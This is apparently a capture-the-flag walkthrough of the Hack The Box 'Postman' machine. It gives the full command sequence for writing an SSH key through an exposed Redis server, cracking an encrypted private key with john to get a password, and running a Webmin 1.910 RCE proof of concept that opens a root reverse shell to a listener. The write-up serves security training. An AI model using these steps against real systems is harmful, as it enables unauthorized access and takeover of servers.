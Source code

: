 # Postman

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.2.1   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 02:05 EDT
Nmap scan report for 10.129.2.1
Host is up (0.0065s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Redis is open interestingly. So we can try to check for vulnerabilities there first.

### SSH Key Write

We can connect to Redis using `redis-cli`.&#x20;

```
$ redis-cli -h 10.129.2.1
10.129.2.1:6379> info
# Server
redis_version:4.0.9
```

The Redis version is really outdated, so we can try to find some exploits regarding it. Hacktricks has some methods of exploiting this by writing SSH keys.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh" %}

Just follow these commands:

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
exit
chmod 600 id_rsa
ssh -i id_rsa redis@10.129.2.1
```

This would generate a pair of keys, and afterwards write it into the machine as the keys for `redis`. Then we can directly SSH in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### User SSH Key

Within the `/home` directory, we find the user is called Matt

```
redis@Postman:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

Within the `/opt` directory, there's a password encrypted `id_rsa` file.&#x20;

```
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can download this back to our machine and use `ssh2john` and `john` to crack it.&#x20;

```
$ ssh2john id_rsa.bak > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-05-02 02:17) 9.090g/s 2243Kp/s 2243Kc/s 2243KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great! We now have a password for the user. We can use `su` to change from `redis` to `Matt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

### Webmin

In the earlier `nmap` scan, we found that there were some HTTP ports that I didn't touch till now. Port 10000 has a Webmin instance running, and we can login using the credentials we just found.

<figure><img src="../../../.gitbook/assets/image (32) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (37) (1) (3).png" alt=""><figcaption></figcaption></figure>

This was running Webmin 1.910, which is vulnerable to RCE through Package Updates. There are tons of PoCs online.

{% embed url="https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py" %}

```bash
$ python3 rce.py --ip_address 10.129.2.1 --port 10000 --lhost 10.10.14.13 --lport 4444 --user Matt --password computer2008
```

This would give us an easy `root` shell.

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
